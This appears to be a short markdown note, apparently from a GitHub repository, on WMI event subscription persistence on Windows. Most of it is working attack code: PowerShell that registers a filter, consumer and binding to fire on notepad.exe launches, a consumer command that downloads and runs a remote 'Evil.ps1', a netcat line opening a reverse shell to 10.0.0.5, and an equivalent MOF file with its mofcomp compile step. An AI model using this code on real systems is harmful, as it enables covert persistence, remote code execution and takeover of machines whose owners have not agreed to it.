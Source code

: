 # WMI Subscription

`WMI Event Filter`let you dynamically detect the scope of Group Policy objects (GPOs), based on the attributes of the targeted computer

```wmi
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
    EventNamespace = 'root/CIMV2'
    Name = 'Malicious Filter'
    Query = 'SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA "Win32_Process" AND TargetInstance.Name = "notepad.exe"'
    QueryLanguage = 'WQL'
}
```

`WMI Event Consumer`  defines what the system should do with any events caught by the filter

```
$Command = 'powershell.exe -Command IEX (IWR http://10.0.2.15:1337/Evil.ps1)'

$Consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{
    Name = 'Malicious Consumer'
    CommandLineTemplate = $Command
}
```

`WMI Binding` Binds Filter and Consumer Classes 

```
Set-WmiInstance -Name root\subscription -Class __FilterToConsumerBinding -Arguments @{
    Filter = $Filter
    Consumer = $Consumer
}
```

### payload

nooranet.scr

```cmd
nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

## MOF

Managed object format (MOF) is the language used to describe CIM (Common Information Model) classes. A MOF file typically contains statements. classes and class instances which are added to the WMI repository (OBJECTS.DATA) when the file is compiled (mofcomp.exe can compile MOF files and it is part of Windows)

#### nooranet.mof

```
#PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
instance of CommandLineEventConsumer as $Cons
{
    Name = "NooraNet";
    RunInteractively=false;
    CommandLineTemplate="cmd.exe";
};
instance of __EventFilter as $Filt
{
    Name = "NooraNet";
    EventNamespace = "root\\subscription";
    Query ="SELECT * FROM __InstanceCreationEvent Within 3"
            "Where TargetInstance Isa \"Win32_Process\" "
            "And Targetinstance.Name = \"notepad.exe\" ";
    QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding
{ 
     Filter = $Filt;
     Consumer = $Cons;
};
```

### Compile MOF File

```cmd
mofcomp.exe .\nss.mof
```
